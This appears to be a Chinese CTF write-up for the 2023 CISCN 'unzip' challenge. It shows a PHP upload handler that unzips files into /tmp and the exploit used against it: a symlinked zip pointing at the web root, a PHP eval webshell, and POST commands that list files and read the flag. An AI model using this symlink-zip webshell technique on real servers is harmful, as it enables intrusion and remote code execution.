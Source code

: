 ```yaml
---
title: 2023CISCN初赛unzip
subtitle:
date: 2025-03-14T14:51:24+08:00
slug: efbed7c
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - 玄机
categories:
  - 玄机
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->

![](images/5585a1ceecf49a83a0a458dcacb1a6e4.png)
上传一句话文件木马，查看回显
![](images/9fcbb9588fb491783b296dbc1b7b829c.png)
放行看一下回显

``` Php
<?php   
error_reporting(0);   
highlight_file(__FILE__);
$finfo = finfo_open(FILEINFO_MIME_TYPE);   if (finfo_file($finfo, $_FILES["file"]["tmp_name"]) === 'application/zip'){
//确保上传文件类型是zip
        exec('cd /tmp && unzip -o ' . $_FILES["file"]["tmp_name"]);
//将上传的zip文件解压到/tmp目录
};      
//only this!
```

`finfo_file`函数检查文件类型，确保上传的文件类型为`zip`，然后将上传的zip解压到`/tmp`目录。
想了一下，如果我们直接上传，那么就会被解压到`/tmp`处，这样我们无法利用蚁剑或者进行命令执行。`软连接`可以达到我们的要求
[Linux 软链接——ln命令详解_ln -s-CSDN博客](https://blog.csdn.net/annita2019/article/details/105481449)

```
//创建一个新的文件夹
mkdir unzip
cd unzip

//创建软连链接
ln -s /var/www/html slink
//slink相当于/var/www/html

//压缩
zip --symlink slink.zip slink

//删除slink，再新建slink文件夹
mkdir slink

//进入slink文件夹，创建shell.php，写入一句话木马
cd slink
echo '<?php eval($_POST['t']);?>' > shell.php

//退到unzip文件夹，并将slink文件夹压缩
cd ..
zip -r slink1.zip ./slink/*
```

依次将`slink`和`slink1.php`上传，然后访问`shell.php`
![](images/dfcccef503edaedca3f374b47f617c70.png)
正常访问，上传解压成功，进行命令执行，利用POST传参

```
t=system('ls /');
t=system('cat /flag');
```

![](images/7731dd6f7a4220004a0dfd03bc413eb2.png)
![](images/a332985e46811a02b5899649af993697.png)
